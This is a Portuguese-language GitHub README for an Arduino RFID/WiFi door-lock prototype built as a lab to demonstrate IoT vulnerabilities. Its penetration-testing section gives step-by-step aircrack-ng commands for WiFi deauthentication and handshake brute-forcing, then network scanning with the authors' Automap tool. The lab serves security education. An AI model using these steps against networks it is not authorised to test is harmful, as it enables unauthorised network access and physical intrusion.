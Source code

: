 # Arduino-DoorLock


O projeto apresentado no presente repositório se trata de um sistema de controle de acesso físico utilizando o microcontrolador Arduino. O protótipo final simula o funcionamento de um mecanismo para trancar e destrancar portas de forma eletrônica, controlado via Cartão RFID e WiFi, onde, caso o acesso seja bem-sucedido, um Servo Motor é movimentado liberando a abertura da porta.

A premissa ao simular - o que poderia ser o controle de acesso físico de um ambiente real - é evidenciar, analisar e explorar as possíveis vulnerabilidades que podem ser encontradas em implementações inseguras de redes e dispositivos IoT. Para tanto, neste projeto, são executados testes de segurança que exemplificam de forma semelhante a realidade os ataques cibernéticos mais recorrentes, conforme aponta o relatório da [“OWASP Top 10 IoT”](https://owasp.org/www-pdf-archive/OWASP-IoT-Top-10-2018-final.pdf), de 2018.


## Tabela de Conteúdos
* [Sobre](#arduino-doorlock)
* [Tabela de Conteúdos](#tabela-de-conteúdos)
* [Pré-Requisitos](#pré-requisitos)
* [User Story](#user-story)
* [Testes de Invasão](#testes-de-invasão)
* [Autores](#autores)

## Pré-Requisitos
Nesta seção são apresentados todos os pré-requisitos necessários para reproduzir o protótipo do [DoorLock](https://github.com/iuribpmoro/Arduino-DoorLock).

### Materiais
Para montagem deste projeto serão necessários os seguintes componentes:
* [Arduino UNO](https://www.filipeflop.com/produto/placa-uno-r3-cabo-usb-para-arduino/)
* [Protoboard 400 pontos](https://www.filipeflop.com/produto/protoboard-400-pontos/#tab-description)
* [Servo Motor](https://www.filipeflop.com/produto/micro-servo-sg92r-9g-towerpro/)
* [Módulo leitor RFID MFRC522](https://www.filipeflop.com/produto/kit-modulo-leitor-rfid-mfrc522-mifare/?utm_source=google&utm_medium=organic&utm_campaign=shopping&utm_content=surfaces_across_google)
* [Ethernet Shield W5100 para Arduino](https://www.filipeflop.com/produto/ethernet-shield-w5100-para-arduino/)
* [Cabo de Rede](https://www.filipeflop.com/produto/cabo-de-rede-conector-rj45-15m/)
* [Sensor Hall Magnético KY-003](https://www.filipeflop.com/produto/sensor-hall-ky-003/)
* [LED Verde](https://www.baudaeletronica.com.br/led-difuso-5mm-verde.html)
* [LED Vermelho](https://www.baudaeletronica.com.br/led-difuso-5mm-vermelho.html)
* [2 x Resistor 220Ω](https://www.filipeflop.com/produto/resistor-220%cf%89-14w-x20-unidades/)
* Jumpers

### Montagem
A montagem deste projeto segue o sketch de demonstração.
Lembrando que o Ethernet Shield deve ser conectado sobre o Arduino.

<details>
  <summary>Clique para visualizar o sketch</summary>
  <img alt="DoorLock Sketch" src="https://github.com/iuribpmoro/Arduino-DoorLock/blob/main/Sketch/door_lock_sketch.png" height="700px">
</details>

### Instalação
Para anexar o protótipo em uma maquete ou mesmo em uma porta, deve-se seguir a estrutura:
[instalacao-doorlock.pdf](https://github.com/iuribpmoro/Arduino-DoorLock/files/6788697/instalacao-doorlock.pdf)

### Softwares
Os pré-requisitos a nível de software para reproduzir a aplicação:
* [Arduino IDE](https://www.arduino.cc/en/software)
* [Biblioteca](https://www.arduino.cc/reference/en/libraries/mfrc522/) (Passo a passo: [Adicionar bibliotecas na IDE do arduino](https://www.robocore.net/tutoriais/adicionando-bibliotecas-na-ide-arduino))
* [Código-fonte do DoorLock](https://github.com/iuribpmoro/Arduino-DoorLock/blob/main/DoorLock/DoorLock.ino)

Por fim, o arduino deve ser conectado via USB com o computador, o código deve ser carregado na placa e o ambiente estará pronto.

## User Story

### Cartão
**Eu como** pessoa autorizada a acessar um determinado local

**Quero que** consiga abrir a porta deste local aproximando meu cartão RFID do leitor<br>
**Ou** consiga abrir a porta deste local através da wifi, acessando uma determinada rota que faz uma requisição de abertura da porta
**e** só tranque novamente quando após eu fechá-la
**ou** caso eu não abra, deverá se trancar novamente

**Para** não utilizar chaves<br>
**e** poder manipular a minha fechadura a distância

### Conversa
O servo deve girar em 90º quando:
- O conteúdo lido no card RFID estiver correspondente
- A requisição WiFi enviada for para a rota /b

O controle para saber se a porta está aberta ou fechada de ser feita pelo Sensor Magnético.<br>
Se estiver perto do imã que está na porta, significa que está fechada. Senão, está aberta.

### Confirmação

Cenário 01 - Abrindo a porta - <Válido>: 
1.  **Dado que** possuo um cartão RFID autorizado ou conheço a requisição WiFi correta a ser enviada
2.  **Quando** aproximar meu cartão da leitora ou enviar uma requisição WiFi correta
3.  **Então** o LED verde acenderá, a fechadura será destrancada e eu poderei abrir a porta dentro dos próximos 5 segundos.
4.  **Caso 1:** Caso eu não abra a porta, a fechadura irá trancar novamente e o LED verde será apagado
5.  **Caso 2:** Caso eu abra a porta, a fechadura só vai trancar 5 segundos após eu fechar, assim como o LED verde se apagará

Cenário 02 - Abrindo a porta - <Inválido>: 
1.  **Dado que** não possuo um cartão RFID autorizado, nem conheço a requisição WiFi correta a ser enviada
2.  **Quando** aproximar meu cartão da leitora ou enviar uma requisição WiFi incorreta ou apenas tentar abrir a porta
3.  **Então** o LED vermelho acenderá e a fechadura permanecerá trancada.

## Testes de Invasão

Primeiramente, demonstra-se o funcionamento de um ataque físico de cópia de conteúdos em tags RFID, por meio da utilização de um
segundo arduino configurado para atingir esse objetivo. Em segundo lugar, exemplifica-se um ataque de força bruta para a quebra
da senha da rede WiFi na qual o dispositivo está conectado, descrevendo os riscos de utilizar senhas fracas e previsíveis.

Por meio da utilização do script [Automap](https://github.com/iuribpmoro/Automap) que realizam o reconhecimento, scanning e enumeração da rede, descobre-se, por fim, como operar a fechadura por meio de requisições web, finalizando o processo de ataque.

### WiFi Hacking
#### Setup da Interface
- Iniciar modo de monitoramento da interface WiFi:
```bash
sudo airmon-ng start wlan0
```
- Verifique as interfaces wireless:
```bash
sudo iwconfig
```
#### Scanning da Rede
- Realize o scan das redes próximas e tome nota do BSSID e Channel da rede alvo:
```bash
sudo airodump-ng wlan0mon
```
- Realize o scan da rede alvo, tomando nota do MAC dos dispositivos conectados e salvando os handshakes a serem capturados:
```bash
sudo airodump-ng -c <CANAL_DA_REDE> --bssid <BSSID_DA_REDE> -w <PREFIXO_DO_ARQUIVO_DE_OUTPUT> wlan0mon
```
#### Deauthentication
- Em outro terminal, enquanto o outro roda o comando anterior, expulse os hosts da rede por meio de um ataque de deauthentication:
```bash
sudo aireplay-ng -0 2 -a <BSSID_DA_REDE> -c <MAC_DO_DISPOSITIVO>
```
#### Brute Force
- Realize um ataque de força bruta nos pacotes capturados para tentar realizar a quebra da senha:
```bash
sudo aircrack-ng <ARQUIVO>.cap -w <WORDLIST>
```
### Scanneando a Rede
#### Instalando o Automap
- Baixe a ferramenta do github:
```bash
git clone https://github.com/iuribpmoro/Automap
```
- Rode o script de instalação:
```bash
./install.sh
```
#### Rodando o Automap
- Rode o scan na rede e em todos os hosts conectados:
```bash
./Automap.sh network <REDE> <WORDLIST_DE_DIRETORIOS> -n <NUMERO_DE_PORTAS>
```

## Autores
### Gabrieli Silva
[![Gmail Badge](https://img.shields.io/badge/Gmail-D14836?style=for-the-badge&logo=gmail&logoColor=white
)](mailto:nets.gss@gmail.com)[![Linkedin Badge](https://img.shields.io/badge/linkedin%20-%230077B5.svg?&style=for-the-badge&logo=linkedin&logoColor=white)](https://www.linkedin.com/in/gabrieli-silva-435627164/)
### Iuri Moro
[![Gmail Badge](https://img.shields.io/badge/Gmail-D14836?style=for-the-badge&logo=gmail&logoColor=white
)](mailto:iuribpmoro@gmail.com)[![Linkedin Badge](https://img.shields.io/badge/linkedin%20-%230077B5.svg?&style=for-the-badge&logo=linkedin&logoColor=white)](https://www.linkedin.com/in/iuribpmoro/)

